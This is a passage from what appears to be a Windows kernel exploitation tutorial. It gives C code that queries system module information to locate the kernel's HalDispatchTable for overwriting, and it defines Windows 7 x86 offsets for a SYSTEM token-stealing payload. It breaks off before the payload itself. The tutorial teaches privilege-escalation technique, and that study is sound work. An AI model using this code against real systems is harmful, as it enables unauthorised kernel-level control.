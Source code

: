 typedef struct SYSTEM_MODULE_INFORMATION {
	ULONG                ModulesCount;
	SYSTEM_MODULE        Modules[1];
} SYSTEM_MODULE_INFORMATION, *PSYSTEM_MODULE_INFORMATION;

typedef enum _SYSTEM_INFORMATION_CLASS {
	SystemModuleInformation = 11,
	SystemHandleInformation = 16
} SYSTEM_INFORMATION_CLASS;
</pre>

Now we have all the necessary structures we can call the function. We call it twice, the first time with NULL arguments so that it will put the required structure size in the 'len' variable we pass it a pointer too and again once we have allocated structures of the correct size. We use the SystemModuleInformation as we want to get the details of the modules loaded within kernel memory in order to find the HalDispatchTables location.

<pre>
ULONG len = 0;
query(SystemModuleInformation, NULL, 0, &len);
PSYSTEM_MODULE_INFORMATION pModuleInfo = (PSYSTEM_MODULE_INFORMATION)GlobalAlloc(GMEM_ZEROINIT, len);
if (pModuleInfo == NULL){
	printf("Could not allocate memory for module info.\n");
	return 1;
}
query(SystemModuleInformation, pModuleInfo, len, &len);
if (len == 0){
	printf("Failed to retrieve system module information\n");
	return 1;
}
</pre>

Now that we have the module information we can use it to find the HalDispatchTable's address within the kernel image in memory.

<pre>
PVOID kernelImageBase = pModuleInfo->Modules[0].ImageBaseAddress;
PCHAR kernelImage = (PCHAR)pModuleInfo->Modules[0].Name;
kernelImage = strrchr(kernelImage, '\\') + 1;
printf("Kernel Image name %s\n", kernelImage);

HMODULE userBase = LoadLibrary(kernelImage);
PVOID dispatch = (PVOID) GetProcAddress(userBase, "HalDispatchTable");
dispatch = (PVOID)((ULONG)dispatch - (ULONG)userBase + (ULONG)kernelImageBase);
printf("User Mode kernel image base address: 0x%X\n",userBase);
printf("Kernel mode kernel image base address: 0x%X\n", kernelImageBase);
printf("HalDispatchTable address: 0x%X\n", dispatch);
</pre>

Now that we know the location we need to overwrite, we need something to overwrite it with. 

<pre>
// Windows 7 SP1 x86 Offsets
#define KTHREAD_OFFSET    0x124    // nt!_KPCR.PcrbData.CurrentThread
#define EPROCESS_OFFSET   0x050    // nt!_KTHREAD.ApcState.Process
#define PID_OFFSET        0x0B4    // nt!_EPROCESS.UniqueProcessId
#define FLINK_OFFSET      0x0B8    // nt!_EPROCESS.ActiveProcessLinks.Flink
#define TOKEN_OFFSET      0x0F8    // nt!_EPROCESS.Token
#define SYSTEM_PID        0x004    // SYSTEM Process PID
